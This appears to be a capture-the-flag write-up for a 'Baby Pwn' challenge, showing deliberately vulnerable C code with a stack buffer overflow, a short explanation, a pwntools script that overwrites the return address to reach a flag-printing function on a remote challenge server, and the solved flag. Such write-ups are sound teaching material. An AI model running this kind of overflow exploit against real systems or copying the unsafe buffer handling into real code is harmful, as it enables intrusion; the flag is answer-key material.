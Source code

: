 # Baby Pwn
## Challenge Description
![Screenshot 2025-01-12 180747](https://github.com/user-attachments/assets/81feb3a7-6305-40c9-a0b2-2c93a0d7c0c0)  
**Given Source Code:**
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void secret()
{
    printf("Congratulations! Here is your flag: ");
    char *argv[] = {"/bin/cat", "flag.txt", NULL};
    char *envp[] = {NULL};
    execve("/bin/cat", argv, envp);
}

void vulnerable_function()
{
    char buffer[64];
    printf("Enter some text: ");
    fgets(buffer, 128, stdin);
    printf("You entered: %s\n", buffer);
}

int main()
{
    setvbuf(stdout, NULL, _IONBF, 0);
    printf("Welcome to the Baby Pwn challenge!\n");
    printf("Address of secret: %p\n", secret);
    vulnerable_function();
    printf("Goodbye!\n");
    return 0;
}
```

## Solution
From the given source code, inside the **vulnerable_function()**, ther is a **char buffer[64]** where it can only store 64 bytes of data.
This is a buffer overflow vulnerability, where user can submit a string more than 64 byte which over the array limit causing a buffer overflow attack.  
After running the program, it will also print out the secret address which can be used to investigate in assembly code.

### Ghidra
![Screenshot 2025-01-12 181023](https://github.com/user-attachments/assets/406ae3fa-366c-4a12-8cfa-8331aaf4bfe3)
When inspecting the assemble of the code, the secret address pushes the RBP to run the secret function which has a **/bin/cat** location and **flag.txt**. 
By knowing this secret function, we can create a payload of 72 bytes (64 bytes + 8 bytes from Base Pointer) with the given secret address. So here is the exploit code:  
```c
from pwn import *

# Connection details
HOST = "34.162.142.123"
PORT = 5000

# Offsets and addresses (update if required)
BUFFER_SIZE = 64  # Buffer size in vulnerable_function
SECRET_FUNC_ADDR = 0x00401166  # Replace with the actual address from the binary

# Create the payload
payload = b"A" * BUFFER_SIZE  # Overwrite buffer
payload += b"B" * 8  # Overwrite saved RBP
payload += p64(SECRET_FUNC_ADDR)  # Overwrite return address with secret()

# Start the exploit
io = remote(HOST, PORT)
io.recvuntil(b"Enter some text: ")  # Wait for the prompt
io.sendline(payload)  # Send the payload

# Receive and print the flag
io.interactive()
```

## Challenge Flag
uoftctf{buff3r_0v3rfl0w5_4r3_51mp13_1f_y0u_kn0w_h0w_t0_d0_1t}
